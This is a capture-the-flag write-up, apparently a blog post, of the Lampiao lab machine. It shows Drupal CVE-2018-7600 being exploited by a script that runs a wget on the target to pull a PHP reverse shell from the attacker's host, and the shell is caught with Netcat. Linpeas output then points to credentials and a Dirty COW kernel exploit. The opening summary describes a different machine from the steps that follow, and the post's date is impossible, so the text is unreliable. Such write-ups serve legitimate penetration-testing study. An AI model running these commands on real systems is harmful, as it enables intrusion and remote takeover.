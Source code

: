 ```yaml
---
layout: single
title: Lampiao - Proving grounds Play
date: 2023-13-06
classes: wide
header:
  teaser: /assets/images/linux.png
categories:
  - provinggrounds
  - infosec
tags:
  - provinggrounds
  - linux
  - drupal
  - dirtycow
  - kernel
---
```


## Linux

![](/assets/images/linux.png)

This blog post is a writeup of the Lampiao machine from Proving grounds play.

### Summary
------------------
- The webserver has a vulnerable function that can be used to browse directories and read files
- We can read the SSH private key from the `nobody` user home directory and log in as `nobody`
- We're within a container but we can log in with SSH as user `monitor` to the host (127.0.0.1)
- There's a logMonitor application running with elevated capabilities (it can read log files even if not running as root)
- This is a hint that we should be looking at capabilities of files (`cap_dac_read_search+ei`)
- We look at the entire filesystem for files with special cap's and we find that the `tac` application has that capabily and we can read `/root/root.txt`

### Detailed steps
------------------

### Enumeration

There's a webserver, a SSH service and another interesting open port (1898) running on this box.

![nmap1](D:\Alex\ESTUDIOS\OSCP\Lorealex.github.io\assets\images\pg-play-lampiao\1.JPG)

Let's take a closer look at these ports with Nmap.
 ```
 nmap -A 192.168.201.48 -p 22,80,1898 -o nmap_lampiao.txt
 ```
![nmap2](D:\Alex\ESTUDIOS\OSCP\Lorealex.github.io\assets\images\pg-play-lampiao\2.JPG)


As we can see in the last picture, the 1898 port it's running an HTTP service. Nmap HTTP enum returns some interesting files as CHANGELOG.TXT

CHANGELOG.txt it's a common file in Drupal which shows the current version.
In this case the current version it's `7.54`.

![changelog](D:\Alex\ESTUDIOS\OSCP\Lorealex.github.io\assets\images\pg-play-lampiao\5.JPG)


`Drupal 7.54` it's vulnerable to a remote code execution as we can see in `CVE-2018-7600` --> https://www.drupal.org/sa-core-2018-002
To exploit this vulnerability I used the following python code --> https://github.com/pimps/CVE-2018-7600

The first step was to check the vulnerability. I successfully executed the exploit with `id` command.
 ```
 python3 drupa7-CVE-2018-7600.py http://192.168.201.48:1898 -c id
 ```

![exploit1](D:\Alex\ESTUDIOS\OSCP\Lorealex.github.io\assets\images\pg-play-lampiao\6.JPG)


Now, in order to gain access to the victim's machine, I uploaded a PHP revershell to the webserver.

Configuring the webshell:
![shell1](D:\Alex\ESTUDIOS\OSCP\Lorealex.github.io\assets\images\pg-play-lampiao\7.JPG)

After configuring the webshell, I opened an HTTP server on my Kali machine with python in my webshell directory:
 ```
 python3 -m http.server 443
 ```

To upload the webshell I used the python exploit to execute a wget command on the victim's machine:
 ```
 python3 drupa7-CVE-2018-7600.py http://192.168.201.48:1898 -c "wget http://192.168.45.177:443/php-reverse-shell.php"
 ```
![exploit2](D:\Alex\ESTUDIOS\OSCP\Lorealex.github.io\assets\images\pg-play-lampiao\8.JPG)


At this point, I was able to access to my webshell on victim's machine and capture the shell running a Netcat listener.
![shell2](D:\Alex\ESTUDIOS\OSCP\Lorealex.github.io\assets\images\pg-play-lampiao\10.JPG)

![shell3](D:\Alex\ESTUDIOS\OSCP\Lorealex.github.io\assets\images\pg-play-lampiao\9.JPG)


Having access to www-data user I was able to find the first flag:
![userflag](D:\Alex\ESTUDIOS\OSCP\Lorealex.github.io\assets\images\pg-play-lampiao\userf.jpg)



### Privilege scalation

To elevete my privileges I used Linpeas.sh --> https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

Linpeas found the following files with an interesting credentials:
![creds](D:\Alex\ESTUDIOS\OSCP\Lorealex.github.io\assets\images\pg-play-lampiao\15.JPG)

This credentials allowed me to log in via SSH with "tiago" user
![shell3](D:\Alex\ESTUDIOS\OSCP\Lorealex.github.io\assets\images\pg-play-lampiao\18.JPG)


Linpeas found a kernel vulnerability too:
```
[+] [CVE-2016-5195] dirtycow 2

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5|6|7,[ ubuntu=14.04|12.04 ],ubuntu=10.04{kernel:2.6.32-21-generic},ubuntu=16.04{kernel:4.4.0-21-generic}
   Download URL: https://www.exploit-db.com/download/40839
   ext-url: https://www.exploit-db.com/download/40847
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh
```